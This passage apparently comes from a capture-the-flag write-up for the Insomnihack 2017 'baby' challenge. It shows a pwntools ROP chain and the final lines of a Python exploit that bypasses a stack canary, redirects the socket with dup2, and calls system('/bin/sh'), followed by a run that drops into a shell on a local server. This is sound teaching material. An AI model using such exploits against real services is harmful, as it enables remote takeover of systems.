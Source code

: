 ```
0x0040:              0x4 [arg0] rdi = 4
0x0048:   0x7ffff7af49a0 dup2
0x0050:   0x7ffff7a07e6a pop rsi; ret
0x0058:              0x2 [arg1] rsi = 2
0x0060:   0x7ffff7a0555f pop rdi; ret
0x0068:              0x4 [arg0] rdi = 4
0x0070:   0x7ffff7af49a0 dup2
0x0078:   0x7ffff7a0555f pop rdi; ret
0x0080:   0x7ffff7b97e9a [arg0] rdi = 140737349516954
0x0088:   0x7ffff7a33440 system
'''
rop = ROP(libc)
rop.dup2(4, 0)
rop.dup2(4, 1)
rop.dup2(4, 2)
rop.system(list(libc.search("/bin/sh\x00"))[0])

print rop.dump()

# Form the payload, and send it
payload = "0"*1032 + p64(stackCanary) + "1"*8 + str(rop)
smashStack(payload)

# Drop to an interactive shell
target.interactive()
```

when we run it (with the exploit how it is, we have to start up the server seperately):

```
$ python exploit.py 
[*] '/Hackery/insomnihack17/baby/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 127.0.0.1 on port 1337: Done
[*] The infoleak is: 0xc762129b183d2900
[*] The infoleak is: 0x7ffff7a05b97
[*] The base of libc is: 0x7ffff79e4000
[*] Loaded cached gadgets for 'libc-2.27.so'
0x0000:   0x7ffff7a07e6a pop rsi; ret
0x0008:              0x0 [arg1] rsi = 0
0x0010:   0x7ffff7a0555f pop rdi; ret
0x0018:              0x4 [arg0] rdi = 4
0x0020:   0x7ffff7af49a0 dup2
0x0028:   0x7ffff7a07e6a pop rsi; ret
0x0030:              0x1 [arg1] rsi = 1
0x0038:   0x7ffff7a0555f pop rdi; ret
0x0040:              0x4 [arg0] rdi = 4
0x0048:   0x7ffff7af49a0 dup2
0x0050:   0x7ffff7a07e6a pop rsi; ret
0x0058:              0x2 [arg1] rsi = 2
0x0060:   0x7ffff7a0555f pop rdi; ret
0x0068:              0x4 [arg0] rdi = 4
0x0070:   0x7ffff7af49a0 dup2
0x0078:   0x7ffff7a0555f pop rdi; ret
0x0080:   0x7ffff7b97e9a [arg0] rdi = 140737349516954
0x0088:   0x7ffff7a33440 system
[*] Switching to interactive mode
Good luck !
$ w
 23:38:52 up  4:03,  1 user,  load average: 0.08, 0.05, 0.00
```